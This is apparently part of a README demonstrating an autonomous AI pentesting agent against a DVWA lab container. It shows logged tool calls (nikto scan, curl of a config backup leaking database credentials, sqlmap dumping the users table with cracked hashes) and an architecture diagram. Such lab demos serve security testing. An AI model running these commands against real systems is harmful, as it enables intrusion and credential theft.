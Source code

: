 ### Stage 2: Vulnerability Discovery
```
Step 2/30: shell
↳ Running: nikto -h 172.17.0.4

+ Cookie PHPSESSID created without the httponly flag
+ /config/: Configuration information may be available remotely.
+ Directory indexing found.
```

### Stage 3: Exploitation
```
Step 6/30: shell
↳ Running: curl -s http://172.17.0.4/config/config.inc.php.bak

$_DVWA[ 'db_user' ]     = 'app';
$_DVWA[ 'db_password' ] = 'vulnerables';
```

### Stage 4: Data Exfiltration via SQL Injection
```
Step 21/30: shell
↳ Running: sqlmap -u "http://172.17.0.4/vulnerabilities/sqli/?id=1&Submit=Submit" 
          --cookie="PHPSESSID=..." --batch -D dvwa -T users --dump

[5 entries]
| user    | password                                    |
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
```

The agent autonomously:
- **Discovered** exposed configuration files through directory listing
- **Extracted** database credentials from backup files
- **Exploited** SQL injection to dump user credentials
- **Generated** a comprehensive 7-page security report with remediation guidance

### Architecture Deep Dive

```mermaid
graph TD
    A[High-Level Objective] --> B[Claude Model Reasoning]
    B --> C{Decision Engine}
    C --> D[Shell Commands]
    C --> E[Security Tools]
    C --> F[Meta-Tool Creation]
    
    D --> G[Evidence Storage]
    E --> G
    F --> G
    
    G --> H[Vector Memory]
    H --> B
    
    style B fill:#f3e5f5
    style G fill:#e8f5e8
    style H fill:#e3f2fd
```

